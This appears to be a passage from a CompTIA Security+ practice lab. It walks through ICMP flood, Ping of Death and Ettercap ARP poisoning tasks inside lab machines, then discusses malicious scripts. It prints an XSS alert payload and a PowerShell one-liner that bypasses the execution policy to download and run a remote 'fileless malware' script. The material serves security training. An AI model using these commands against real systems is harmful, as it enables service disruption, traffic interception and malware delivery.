clear
Type the following command:
hping3 -c 100 --icmp 192.168.0.3
Press Enter.
You will be sending 100 ICMP packets to the target system, 192.168.0.3.
Figure 3.38 Screenshot of PLABKALI: Entering the hping3 command in the terminal window.
Step 5
The ICMP packets are now sent to the target system.
Figure 3.39 Screenshot of PLABKALI: Showing the execution of the hping3 command.
Step 6
Switch to PLABWIN10. Notice the packet capture highlighted in blue color.
Figure 3.40 Screenshot of PLABWIN10: Showing the captured packets in the Wireshark window.
Step 7
Switch to PLABKALI. Wait to verify that 100 packets have been successfully transmitted.
Figure 3.41 Screenshot of PLABKALI: Showing the completion of the hping3 command.
Close the terminal window.
Step 8
Switch to PLABWIN10 and close the Wireshark window.
On the Unsaved packets message box, click Stop and Quit without Saving.
Figure 3.42 Screenshot of PLABWIN10: Closing the Wireshark window.
Task 6 - Perform the Ping of Death Attack
Using the ping command, you can perform a Ping of
Death attack. You can send data packets of size 65500 indefinitely to a
target system. While it may not bring down the system, it will impact
the performance of the target system. You can use a DDoS attack on a
target system to bring it down.
In this task, you will perform the Ping of Death attack. To do this, perform the following steps:
Step 1
Ensure you have powered on all the devices listed in the introduction and connect to PLABDM01.
The Server Manager window is displayed. You can close this window.
Figure 3.43 Screenshot of PLABDM01: Showing the desktop of PLABDM01 and closing the Server Manager window.
Step 2
Right-click the Windows Charm and select Run.
Figure 3.44 Screenshot of PLABDM01: Right-clicking the Windows charm and selecting Run.
Step 3
In the Open textbox of the Run dialog box, type the following command:
cmd
Click OK.
Figure 3.45 Screenshot of PLABDM01: Entering the cmd command and clicking OK on the Run dialog box.
Step 4
The command prompt window is displayed. Type the following command:
ping 192.168.0.3 -t -l 65500
Press Enter.
Note: 192.168.0.3 is the IP address of the target system, which is PLABWIN10. The -t parameter will send the data packets indefinitely until you terminate the command. The -l parameter defines the size of the data packet.
Figure 3.46 Screenshot of PLABDM01: Entering the ping command on the command line.
Step 5
The ping command starts to send packets to the target system, which is PLABWIN10.
Figure 3.47 Screenshot of PLABDM01: Showing the execution of the ping command.
Step 6
Switch to PLABWIN10. You should be on the desktop. Right-click the taskbar and select Task Manager.
Figure 3.48 Screenshot of PLABWIN10: Right-clicking the taskbar and selecting Task Manager.
Step 7
Click the More details down arrow.
Figure 3.49 Screenshot of PLABWIN10: Clicking the More details arrow on the Task Manager dialog box.
Step 8
Notice that multiple tabs in the Task Manager window appear. Click the Performance tab.
Figure 3.50 Screenshot of PLABWIN10: Clicking the Performance tab in Task Manager.
Step 9
On the Performance tab, the CPU option is selected by default. Click Ethernet.
Figure 3.51 Screenshot of PLABWIN10: Selecting Ethernet on the Performance tab in Task Manager.
Step 10
Notice that there is an increased network activity on the PLABWIN10 system.
Figure 3.52 Screenshot of PLABWIN10: Showing the increased traffic activity in PLABWIN10.
Step 11
Switch back to PLABDM01.
Press Ctrl + c to terminate the ping command.
Figure 3.53 Screenshot of PLABDM01: Terminating the ping command.
Close the command prompt window.
Step 12
Switch back to PLABWIN10. Notice that the network activity has reduced greatly.
Figure 3.54 Screenshot of PLABWIN10: Showing the decreased network activity.
Close the Task Manager window.
Task 7 - Conduct an Address Resolution Protocol (ARP) Poisoning Attack
ARP Poisoning is also known as ARP Spoofing. In ARP
Poisoning, a hacker sends fake ARP messages on a network. The hacker
also links its own MAC address with the IP addresses of the other
systems. The attacker can then receive messages that were intended to be
sent to the owner of the IP address. However, instead of the owner, the
attacker receives the messages. ARP spoofing can occur if both the
parties, the attacker and the victim, have the systems in the same
broadcast domain.
To conduct an ARP Poisoning attack, perform the following steps:
Step 1
Ensure you have powered on all the devices listed in the introduction and connect to PLABKALI. The desktop of PLABKALI is displayed.
In this task, you will use Ettercap, a tool specifically designed for Man-In-The-Middle (MITM) attacks.
Click Applications, select 09 - Sniffing & Spoofing, and then select etthercap-graphical.
Figure 3.55 Screenshot of PLABKALI: Selecting an ettercap-graphical option from the Applications menu.
Step 2
Ettercap now starts. Click Accept to go ahead with the default settings.
 Figure 3.56 Screenshot of PLABKALI: Showing the Ettercap window after it is launched, and clicking Accept.
Figure 3.56 Screenshot of PLABKALI: Showing the Ettercap window after it is launched, and clicking Accept.
Step 3
Before you proceed further with the ARP Poisoning attack, let’s first check the ARP table on the PLABWIN10 system.
Connect to PLABWIN10. click the Windows charm and type cmd and press Enter.
Figure 3.57 Screenshot of PLABWIN10: Selecting the Run option from windows search menu.
Step 4
The command prompt window is displayed. Type the following command to check the ARP table:
arp -a
Press Enter.
Figure 3.58 Screenshot of PLABWIN10: Entering the arp -a command on the command prompt.
Step 5
Notice that each system has a different MAC address.
Figure 3.59 Screenshot of PLABWIN10: Showing the arp table on PLABWIN10.
Step 6
Switch back to PLABKALI. Notice that sniffing is already in progress.
Step 7
On the extreme upper right corner, click the three dots, click Hosts and then select Scan for hosts.
Figure 3.61 Screenshot of PLABKALI: Selecting Scan for hosts from the Hosts menu.
Step 8
Click the three dots, click Hosts and then select Hosts list.
Figure 3.62 Screenshot of PLABKALI: Selecting Hosts list from the Hosts menu.
Step 9
Notice several systems appear on the list.
Figure 3.63 Screenshot of PLABKALI: Showing the discovered hosts on the Host List tab.
Step 10
The Host list tab is displayed. select 192.168.0.2 and click Add to Target 1.
Figure 3.64 Screenshot of PLABKALI: Clicking Add in the Target 1 section.
Step 11
You can see that 192.168.0.2 has been added to TARGET1.
Figure 3.65 Screenshot of PLABKALI: Showing the IP address in the Target 1 section.
Step 12
Select 192.168.0.3 and click Add to Target 2.
 Figure 3.66 Screenshot of PLABKALI: Clicking Add in the Target 2 section.
Figure 3.66 Screenshot of PLABKALI: Clicking Add in the Target 2 section.
Step 13
Notice that the IP addresses are now added in the Target 1 and Target 2 sections.
Figure 3.67 Screenshot of PLABKALI: Showing the IP address in the Target 1 and Target 2 section.
Step 14
Next, you will perform the ARP Poisoning attack. Click the MITM menu.
Figure 3.68 Screenshot of PLABKALI: Clicking MITM icon in the upper right pane.
Step 15
From the MITM menu, select ARP poisoning.
Figure 3.69 Screenshot of PLABKALI: Selecting ARP poisoning from the MITM menu.
Step 16
In the MITM Attack: ARP Poisoning dialog box, ensure Sniff remote connections is selected, and click OK.
Figure
3.70 Screenshot of PLABKALI: Selecting Sniff remote connections on the
MITM Attack: Arp Poisoning dialog box and clicking OK.
Step 17
Switch over to PLABWIN10.
Type the following command:
arp -a
Press Enter.
Notice the MAC address for 192.168.0.2 and 192.168.0.4 are the same.
Close the command prompt.
Figure 3.71 Screenshot of PLABWIN10: Entering the arp -a command on the PLABWIN10 system and displaying the updated ARP cache.
Step 18
Switch back to PLABKALI
Click the three dots, click Plugins.
Figure 3.72 Screenshot of PLABKALI: Clicking the Plugins option.
Step 19
Click Manage plugins.
Figure 3.73 Screenshot of PLABKALI: Selecting Manage plugins from the Plugins menu.
Step 20
In the upper pane, double-click chk_poison. The bottom pane immediately displays the results.
Figure
3.74 Screenshot of PLABKALI: Double-clicking chk_poison on the Plugins
tab and showing the Poisoning process successful message in the bottom
pane.
Step 21
Drag the bottom section towards the top to get the real-time status. Notice that the status of Group 1 and Group 2 is now displayed with the changed MAC addresses, which is retrieved from the ARP cache.
 Figure 3.75 Screenshot of PLABKALI: Showing the poisoning status in the lower bottom section of the window.
80e3ace3-3818-477e-9d50-9fdfea66eb75
Figure 3.75 Screenshot of PLABKALI: Showing the poisoning status in the lower bottom section of the window.
80e3ace3-3818-477e-9d50-9fdfea66eb75
Close all open windows.
<
Home |
README >
CompTIA Security+ Practice Labs
Exercise 4 - Malicious Code or Script Execution
When a piece of code or a script is written, there is a
purpose that needs to be met. The outcome of the purpose is achieved by
execution of code or script. Depending on your intentions, you would
write the script or code accordingly. It is necessary to understand that
a code or script need not be lengthy. A short script or code can cause a
good amount of damage.
For example, you can write a small script and inject
it into a website and when the web browser loads the website, the script
is executed.
<script>alert(‘Hacked’)</script>
Even though this is not really a malicious script, it does throw a dialog box to the user when he or she loads the website.
Malicious code or scripts are written to cause damage,
take over privilege escalation, disrupt the normal functionality, or
even steal information. Depending on the requirement, the malicious code
or script can differ in nature.
In this exercise, you will learn about malicious code or script execution.
Learning Outcomes
After completing this exercise, you should have further knowledge of:
- PowerShell
- Python
- Bash
- Virtual Basic for Applications (VBA) and Macros
Your Devices
This exercise contains supporting materials for Security+.

PowerShell
File-based malware is a common practice. The malware,
depending on its design and functionality, is sent to the user’s system,
and upon its execution, it can cause damage. A new type of malware
known as fileless malware, is now becoming common. A fileless malware
does not copy itself to the system’s storage but rather loads itself
into the memory. This is where PowerShell comes in handy to write and
deliver such malware.
A system can have different layers of security.
However, when the malware is executed from memory, it is quite unlikely
that the different security controls can catch it in the system.
When you install Windows 10 or any other recent
version of Windows, such as Windows Server 2019, PowerShell, by default,
does not allow script execution because of Restricted settings in the
script execution policies. However, hackers have found a workaround to
bypass the Restricted settings by simply loading the script into the
memory. Consider the following code:
powershell.exe -ep Bypass -nop -noexit -c iex ((New ObjectNet.WebClient). DownloadString(‘https://www.example.com/filelessmalware.ps1’))
With the Bypass parameter used in this command,
the Restricted mode is bypassed, and the mentioned script is directly
loaded and executed from memory.
Python
Python is being used by programmers to write small
scripts or to create large, complex dynamic applications. Other than its
good use, Python is extensively used by hackers. From creating
malicious scripts, embedded scripts within applications, or writing
malware shared with the users in different ways, such as Email.
Let’s take an example of ShellShock, a malicious
script that exploits the Bash shell vulnerability. Once a system is
compromised, the hacker can then use the system as a bot to conduct a
Distributed Denial-of-Service (DDoS) attack. Numerous systems across the
world can be pooled into a botnet, which is a collection of bots.
One of the key advantages of using Python is that it
has large support for open-source scripts and packages. Hackers can
build small malware using these scripts and packages, originally
designed to help the programmers.
Hackers can perform numerous tasks on a system or
network using the Python scripts, such as code obfuscation. There is no
limit to what Python can do on a system. For example, a hacker can
create malware in Python to take screenshots on a system using its
built-in Webcam. Python scripts can also have an adverse effect on the
system resources, such as memory and CPU. However, it is easy to execute
Python-based malware, and malicious scripts on Linux and Mac systems as
Python is pre-installed in them. On Windows, hackers usually convert
the Python code into an executable and then attempt to deliver it to the
target system.
Bash
Bash is one of the initial platforms where malware and
virus were written. Even today, a large number of malware are written
using Bash. You can write a small malicious script of a few lines, but
it can crash a system in a few minutes. For example, using Bash, you can
write a script that puts itself into a loop, which will eventually
consume all the system resources.
Bash makes it easy for a hacker to even install
dependencies on a Linux system. For example, the script could use the
yum command to install dependencies required for malware to run.
Virtual Basic for Applications (VBA) and Macros
VBA is mainly used with Microsoft applications, such
as MS Word to automate various tasks. Using VBA, you can access system
events and objects within an operating system. Using VBA, you can write
macros, which can also be recorded with Microsoft application. You do
not need programming skills to record a macro.
Other than coming handy for automating tasks, macros
opened up a new frontier for the hackers to attack the end-user systems.
Because the macros are embedded within Office documents and can be
triggered when a document opens, they can take advantage of this
capability. For example, a macro embedded with a document was attached
in an Email, which, when opened, triggered the macro.
Macros within an official document could cause a wide
range of damages. It could corrupt the operating system and
applications, download malware, or even replicate itself via Email
without user intervention. A security control, such as antivirus, may
not help as macros are embedded within documents. After malicious macros
became frequent, Microsoft disabled macros in Office 2007. The user, if
required to use macros, had to manually enable them.
7429868b-128c-4069-95a9-7246a6a9e5a3
d31298f5-3011-4089-bf06-fbf08c44a7f9
Keep all devices that you have powered on in their current state and proceed to the review section.
Review
Well done, you have completed the Identifying Indicators of a Network Attack Practice Lab.
c6e74811-6d1f-4779-94c2-34fcca239022
4a802549-ba2c-42ff-8e91-1698c73ce75b
5d07306d-dae2-404b-8496-eb556dd867ac
01231e2c-7fdc-43c0-aeb6-32efe3ff132c
68f26c44-6a89-4fca-a0fe-854daaf36359
85c3e404-552b-4644-a12b-f14c826906c8
aaaaaaaa-1111-1111-1111-193f35a24fe3
Summary
You completed the following exercises:
- Exercise 1 - Wireless
- Exercise 2 - Domain Name System (DNS)
- Exercise 3 - Other Types of Attacks
- Exercise 4 - Malicious Code or Script Execution
You should now be able to:
- Verify Domain Reputation
- Perform Media Access Control (MAC) Flooding with Macof
- Perform MAC Flooding using Yersinia
- Perform SYN Flooding Attack
- Switch Off the Windows Firewall on PLABWIN10
- Perform an ICMP Flood Attack
- Perform the Ping of Death Attack
- Conduct an Address Resolution Protocol (ARP) Poisoning Attack
You should now have further knowledge of:
- Evil Twin
- Rogue Access Points
- Threats to Bluetooth Devices
- Jamming
- Radio Frequency Identifier (RFID)
- Near Field Communication (NFC)
- Initialization Vector (IV)
- Domain Hijacking
- DNS Poisoning
- DNS Spoofing Attack
- Universal Resource Locator (URL) Redirection
- Distributed Denial-of-Service (DDoS)
- Man-in-the-Browser
- Man-in-the-Middle (MITM)
- MAC Cloning or Spoofing
- PowerShell
- Python
- Bash
- Virtual Basic for Applications (VBA) and Macros
Feedback
067744a4-4299-4662-b5be-04dbb636a007
Shutdown all virtual machines used in this lab. Alternatively, you can log out of the lab platform.